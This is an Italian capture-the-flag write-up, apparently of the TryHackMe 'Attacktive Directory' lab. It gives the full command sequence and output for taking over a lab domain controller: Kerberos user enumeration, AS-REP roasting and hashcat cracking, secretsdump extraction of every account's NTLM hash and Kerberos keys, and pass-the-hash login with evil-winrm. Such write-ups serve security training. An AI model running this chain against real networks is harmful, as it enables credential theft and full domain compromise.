


# Introduzione

## Sistema operativo

Windows

# Prerequisiti / tools

## Impacket

[https://github.com/SecureAuthCorp/impacket](https://www.google.com/url?q=https://github.com/SecureAuthCorp/impacket&sa=D&source=editors&ust=1731856544152452&usg=AOvVaw2SWLa5EmWkoyWVbSLFLt3l)

`git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket`
`pip3 install -r /opt/impacket/requirements.txt`
`cd /opt/impacket/ && python3 ./setup.py install`

## Bloodhound e Neo4j

`apt install bloodhound neo4j`

## Enum4linux


## Kerbrute


[https://github.com/ropnop/kerbrute/releases](https://www.google.com/url?q=https://github.com/ropnop/kerbrute/releases&sa=D&source=editors&ust=1731856544153419&usg=AOvVaw3c1DvAZmHm4qmSehyMnilF)

Si scarica e poi si esegue con ./

## SMBclient e SMBget


## Evil-WinRM


[https://github.com/Hackplayers/evil-winrm](https://www.google.com/url?q=https://github.com/Hackplayers/evil-winrm&sa=D&source=editors&ust=1731856544153906&usg=AOvVaw34DUjEAaFE7oFdRFAuOY40)

Istruzioni di installazione nel link

# Enumeration

## NMAP

```bash
sudo nmap -sC -sV 10.10.243.171 -oN attacktive

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-21 14:50 CET  
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan  
Service scan Timing: About 33.33% done; ETC: 14:51 (0:00:32 remaining)  
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan  
NSE Timing: About 98.05% done; ETC: 14:51 (0:00:00 remaining)  
NSOCK ERROR \[119.5560s\] mksock\_bind\_addr(): Bind to 0.0.0.0:921 failed (IOD #44): Address already in use (98)NSOCK ERROR \[119.5560s\] mksock\_bind\_addr(): Bind to 0.0.0.0:773 failed (IOD #45): Address already in use (98)NSOCK ERROR \[119.5560s\] mksock\_bind\_addr(): Bind to 0.0.0.0:794 failed (IOD #49): Address already in use (98)NSOCK ERROR \[119.5570s\] mksock\_bind\_addr(): Bind to 0.0.0.0:748 failed (IOD #51): Address already in use (98)NSOCK ERROR \[119.5980s\] mksock\_bind\_addr(): Bind to 0.0.0.0:807 failed (IOD #56): Address already in use (98)Nmap scan report for 10.10.243.171  
Host is up (0.039s latency).  
Not shown: 991 closed tcp ports (reset)  
PORT     STATE SERVICE        VERSION  
88/tcp   open  kerberos-sec?  
135/tcp  open  msrpc?  
139/tcp  open  netbios-ssn?  
389/tcp  open  ldap?  
445/tcp  open  microsoft-ds?  
464/tcp  open  kpasswd5?  
593/tcp  open  ncacn\_http     Microsoft Windows RPC over HTTP 1.0  
636/tcp  open  tcpwrapped  
3389/tcp open  ms-wbt-server?  
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local  
| Not valid before: 2021-11-20T13:50:47  
|\_Not valid after:  2022-05-22T13:50:47  
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Host script results:  
|\_smb2-time: Protocol negotiation failed (SMB2)  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 136.61 seconds
```

## Enum4Linux

```bash
enum4linux -a 10.10.243.171                                                                                                                       

1 ⨯  
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Nov 21 14:58:11 2021  
  
\==========================    
|    Target Information    |  
\==========================    
Target ........... 10.10.243.171  
RID Range ........ 500-550,1000-1050  
Username ......... ''Password ......... ''  
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none  
  
  
\=====================================================    
|    Enumerating Workgroup/Domain on 10.10.243.171    |  
\=====================================================    
\[E\] Can't find workgroup/domain  
  
  
\=============================================    
|    Nbtstat Information for 10.10.243.171    |  
\=============================================    
Looking up status of 10.10.243.171  
No reply from 10.10.243.171  
  
\======================================    
|    Session Check on 10.10.243.171    |  
\======================================    
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 437.  
\[+\] Server 10.10.243.171 allows sessions using username '', password ''  
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 451.  
\[+\] Got domain/workgroup name:    
  
\============================================    
|    Getting domain SID for 10.10.243.171    |  
\============================================    
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.  
Domain Name: THM-AD  
Domain Sid: S-1-5-21-3591857110-2884097990-301047963  
\[+\] Host is part of a domain (not a workgroup)  
  
\=======================================    
|    OS information on 10.10.243.171    |  
\=======================================    
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 458.  
Use of uninitialized value $os\_info in concatenation (.) or string at ./enum4linux.pl line 464.  
\[+\] Got OS info for 10.10.243.171 from smbclient:    
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 467.  
\[+\] Got OS info for 10.10.243.171 from srvinfo:  
Could not initialise srvsvc. Error was NT\_STATUS\_ACCESS\_DENIED  
  
\==============================    
|    Users on 10.10.243.171    |  
\==============================    
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 866.  
\[E\] Couldn't find users using querydispinfo: NT\_STATUS\_ACCESS\_DENIED  
  
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 881.  
\[E\] Couldn't find users using enumdomusers: NT\_STATUS\_ACCESS\_DENIED  
  
\==========================================    
|    Share Enumeration on 10.10.243.171    |  
\==========================================    
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 640.  
  
      Sharename       Type      Comment  
      ---------       ----      -------  
SMB1 disabled -- no workgroup available  
  
\[+\] Attempting to map shares on 10.10.243.171  
  
\=====================================================    
|    Password Policy Information for 10.10.243.171    |  
\=====================================================    
\[E\] Unexpected error from polenum:  
  
  
\[+\] Attaching to 10.10.243.171 using a NULL share  
  
\[+\] Trying protocol 139/SMB...  
  
      \[!\] Protocol failed: Cannot request session (Called Name:10.10.243.171)  
  
\[+\] Trying protocol 445/SMB...  
  
      \[!\] Protocol failed: SAMR SessionError: code: 0xc0000022 - STATUS\_ACCESS\_DENIED - {Access Denied} A process has requested access to an object but h  
as not been granted those access rights.  
  
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 501.  
  
\[E\] Failed to get password policy with rpcclient  
  
  
\===============================    
|    Groups on 10.10.243.171    |  
\===============================    
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 542.  
  
\[+\] Getting builtin groups:  
  
\[+\] Getting builtin group memberships:  
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 542.  
  
\[+\] Getting local groups:  
  
\[+\] Getting local group memberships:  
Use of uninitialized value $global\_workgroup in concatenation (.) or string at ./enum4linux.pl line 593.  
  
  
enum4linux complete on Sun Nov 21 15:03:10 2021
```

## Kerbrute

Per poterlo utilizzare si deve modificare il file /etc/hosts



```bash
/home/kali/Documents/./kerbrute\_linux\_amd64 userenum userlist.txt -d spookysec.local --dc spookysec.local  
  
  \_\_             \_\_               \_\_        
 / /\_\_\_\_\_  \_\_\_\_\_/ /\_  \_\_\_\_\_\_\_  \_\_/ /\_\_\_\_    
/ //\_/ \_ \\/ \_\_\_/ \_\_ \\/ \_\_\_/ / / / \_\_/ \_ \\  
/ ,< /  \_\_/ /  / /\_/ / /  / /\_/ / /\_/  \_\_/  
/\_/|\_|\\\_\_\_/\_/  /\_.\_\_\_/\_/   \\\_\_,\_/\\\_\_/\\\_\_\_/                                          
  
Version: v1.0.3 (9dad6e1) - 11/21/21 - Ronnie Flathers @ropnop  
  
2021/11/21 17:02:38 >  Using KDC(s):  
2021/11/21 17:02:38 >   spookysec.local:88  
  
         
2021/11/21 17:04:54 >  \[+\] VALID USERNAME:       james@spookysec.local  
2021/11/21 17:04:54 >  \[+\] VALID USERNAME:       svc-admin@spookysec.local  
2021/11/21 17:04:55 >  \[+\] VALID USERNAME:       James@spookysec.local  
2021/11/21 17:04:56 >  \[+\] VALID USERNAME:       robin@spookysec.local  
2021/11/21 17:04:59 >  \[+\] VALID USERNAME:       darkstar@spookysec.local  
2021/11/21 17:05:01 >  \[+\] VALID USERNAME:       administrator@spookysec.local  
2021/11/21 17:05:05 >  \[+\] VALID USERNAME:       backup@spookysec.local  
2021/11/21 17:05:06 >  \[+\] VALID USERNAME:       paradox@spookysec.local  
2021/11/21 17:05:19 >  \[+\] VALID USERNAME:       JAMES@spookysec.local  
2021/11/21 17:05:23 >  \[+\] VALID USERNAME:       Robin@spookysec.local  
2021/11/21 17:05:47 >  \[+\] VALID USERNAME:       Administrator@spookysec.local
```

# Exploitation

Ho preso gli utenti significativi ottenuti dallo step precedente e li ho messi nel file users.txt

Per vedere se possono ottenere un ticket di autenticazione senza password

## Impacket
GetNPUsers.py

```bash
python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -no-pass -usersfile users.txt                                                        2 ⨯  
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation  
  
\[-\] User james@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:e45af415c0823250b3183d60bee59c73$e18a9194bb65770f4a6595a91aa1cd34d8d3e46b85a14a26b2c0d13b91289815ef  
a858da15925713412a92d97035237685c3465afa0d75b289605d583908878c4c8c6cddba9af165cb618c4ac6cda92bb059ab17f36f0311335bfc980eb8a23dc3e3ca7116adb81676fd0e1d44321  
10781c434ab7658b60ff3803fe7c536dec2b46ac113802d5da48ae9856967e7316f67670a1ef73e84fb714cafe6e03d3fcc2727ef9606b9cede0beec7cbc9dfceb1e04ffe0ba72737f23eeed1fd  
86ab2af795b56ccb1a9964cd63d01d7f4524ed76dc844f264036a29b064b5a3136d4906f87d204edec8c70d3073a59ccf0ae9a5fd410  
\[-\] User James@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User robin@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User darkstar@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User administrator@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User backup@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User paradox@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User JAMES@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User Robin@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
\[-\] User Administrator@spookysec.local doesn't have UF\_DONT\_REQUIRE\_PREAUTH set  
```

## Hashcat

Cercare negli esempi la tipologia di hash da qui [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://www.google.com/url?q=https://hashcat.net/wiki/doku.php?id%3Dexample_hashes&sa=D&source=editors&ust=1731856544158998&usg=AOvVaw0_ZYeKmcsV9ICVzunL3BYm)

```bash
hashcat -m 18200 hash.txt /home/kali/Documents/Attacktive/passwordlist.txt --show  
$krb5asrep$23$svc\-admin@spookysec.local@SPOOKYSEC.LOCAL:e45af415c0823250b3183d60bee59c73$e18a9194bb65770f4a6595a91aa1cd34d8d3e46b85a14a26b2c0d13b91289815efa858da15925713412a92d97035237685c3465afa0d75b289605d583908878c4c8c6cddba9af165cb618c4ac6cda92bb059ab17f36f0311335bfc980eb8a23dc3e3ca7116adb81676fd0e1d44321  
10781c434ab7658b60ff3803fe7c536dec2b46ac113802d5da48ae9856967e7316f67670a1ef73e84fb714cafe6e03d3fcc2727ef9606b9cede0beec7cbc9dfceb1e04ffe0ba72737f23eeed1fd  
86ab2af795b56ccb1a9964cd63d01d7f4524ed76dc844f264036a29b064b5a3136d4906f87d204edec8c70d3073a59ccf0ae9a5fd410:management2005  
                                                                                                                                                           
┌──(kali㉿kali-guest)-\[~/Documents/Attacktive\]  
└─$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --show                $krb5asrep$23$svc\-admin@spookysec.local@SPOOKYSEC.LOCAL:e45af415c0823250b3183d60bee59c73$e18a9194bb65770f4a6595a91aa1cd34d8d3e46b85a14a26b2c0d13b91289815ef  
a858da15925713412a92d97035237685c3465afa0d75b289605d583908878c4c8c6cddba9af165cb618c4ac6cda92bb059ab17f36f0311335bfc980eb8a23dc3e3ca7116adb81676fd0e1d44321  
10781c434ab7658b60ff3803fe7c536dec2b46ac113802d5da48ae9856967e7316f67670a1ef73e84fb714cafe6e03d3fcc2727ef9606b9cede0beec7cbc9dfceb1e04ffe0ba72737f23eeed1fd  
86ab2af795b56ccb1a9964cd63d01d7f4524ed76dc844f264036a29b064b5a3136d4906f87d204edec8c70d3073a59ccf0ae9a5fd410:management2005
```

La password dell’utente svc-admin è management2005

## SMB enum con password


Con le credenziali ottenute in precedenza vediamo quali share sono disponibili

```bash
smbclient -L \\\\spookysec.local -U svc-admin  
Enter WORKGROUP\\svc-admin's password:    
  
      Sharename       Type      Comment  
      ---------       ----      -------  
      ADMIN$          Disk      Remote Admin  
      backup          Disk        
      C$              Disk      Default share  
      IPC$            IPC       Remote IPC  
      NETLOGON        Disk      Logon server share    
      SYSVOL          Disk      Logon server share    
SMB1 disabled -- no workgroup available
```

Scarichiamo il contenuto della share backup

```bash
smbget -R smb://spookysec.local/backup -U svc-admin                                                                                                1 ⨯  
Password for \[svc-admin\] connecting to //backup/spookysec.local:    
Using workgroup WORKGROUP, user svc-admin  
smb://spookysec.local/backup/backup\_credentials.txt                                                                                                          
Downloaded 48b in 5 seconds
```

Poi facciamo un decode Base64



ottenendo questa stringa

backup@spookysec.local:backup2517860

# Privilege escalation

## Impacket secretsdump.py

```bash
└─$ python3 /opt/impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@spookysec.local  
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation  
  
\[-\] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc\_s\_access\_denied    
\[\*\] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)  
\[\*\] Using the DRSUAPI method to get NTDS.DIT secrets  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::  
spookysec.local\\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::  
spookysec.local\\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::  
spookysec.local\\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::  
spookysec.local\\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::  
spookysec.local\\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::  
spookysec.local\\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::  
spookysec.local\\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::  
spookysec.local\\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::  
spookysec.local\\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::  
spookysec.local\\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::  
spookysec.local\\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::  
spookysec.local\\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::  
spookysec.local\\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::  
spookysec.local\\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::  
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:9f4794ce7dc3eb50f81a6e15ae45dbd2:::  
\[\*\] Kerberos keys grabbed  
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48  
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae  
Administrator:des-cbc-md5:2079ce0e5df189ad  
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc  
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902  
krbtgt:des-cbc-md5:b94f97e97fabbf5d  
spookysec.local\\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04  
spookysec.local\\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233  
spookysec.local\\skidy:des-cbc-md5:b092a73e3d256b1f  
spookysec.local\\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5  
spookysec.local\\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425  
spookysec.local\\breakerofthings:des-cbc-md5:7a976bbfab86b064  
spookysec.local\\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112  
spookysec.local\\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6  
spookysec.local\\james:des-cbc-md5:dc971f4a91dce5e9  
spookysec.local\\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe  
spookysec.local\\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510  
spookysec.local\\optional:des-cbc-md5:8c6e2a8a615bd054  
spookysec.local\\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd  
spookysec.local\\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e  
spookysec.local\\sherlocksec:des-cbc-md5:08dca4cbbc3bb594  
spookysec.local\\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499  
spookysec.local\\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be  
spookysec.local\\darkstar:des-cbc-md5:758af4d061381cea  
spookysec.local\\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067  
spookysec.local\\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e  
spookysec.local\\Ori:des-cbc-md5:1c8f79864654cd4a  
spookysec.local\\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3  
spookysec.local\\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8  
spookysec.local\\robin:des-cbc-md5:89a7c2fe7a5b9d64  
spookysec.local\\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0  
spookysec.local\\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8  
spookysec.local\\paradox:des-cbc-md5:83988983f8b34019  
spookysec.local\\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347  
spookysec.local\\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa  
spookysec.local\\Muirland:des-cbc-md5:cb8a4a3431648c86  
spookysec.local\\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166  
spookysec.local\\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c  
spookysec.local\\horshark:des-cbc-md5:a823497a7f4c0157  
spookysec.local\\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518  
spookysec.local\\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff  
spookysec.local\\svc-admin:des-cbc-md5:2c4543ef4646ea0d  
spookysec.local\\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922  
spookysec.local\\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197  
spookysec.local\\backup:des-cbc-md5:d601e9469b2f6d89  
spookysec.local\\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242  
spookysec.local\\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68  
spookysec.local\\a-spooks:des-cbc-md5:e09e4683ef4a4ce9  
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:7e75d84abe2053b7a8bf8a72f56706ddb9656140d91b805affaab0f7c7cd6eba  
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:d8044e8096f3a187ffaa922c1ba75feb  
ATTACKTIVEDIREC$:des-cbc-md5:5d1fea9e106d971c  
\[\*\] Cleaning up...
```

Otteniamo che l’NTLM hash di Administrator è 0e0363213e37b94221497260b0bcb4fc

## Evil-WinRM


Per fare la login con il metodo pass the hash

```bash
evil-winrm -i 10.10.243.171 -u administrator -H 0e0363213e37b94221497260b0bcb4fc          
  
Evil-WinRM shell v3.3  
  
Warning: Remote path completions is disabled due to ruby limitation: quoting\_detection\_proc() function is unimplemented on this machine  
  
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completionInfo: Establishing connection to remote endpoint  
  
\*Evil-WinRM\* PS C:\\Users\\Administrator\\Documents> cd ..  
\*Evil-WinRM\* PS C:\\Users\\Administrator> cd Desktop  
\*Evil-WinRM\* PS C:\\Users\\Administrator\\Desktop> dir  
  
  
  Directory: C:\\Users\\Administrator\\Desktop  
  
  
Mode                LastWriteTime         Length Name  
\----                -------------         ------ ----  
\-a----         4/4/2020  11:39 AM             32 root.txt
```
Adesso è possibile ottenere i flag
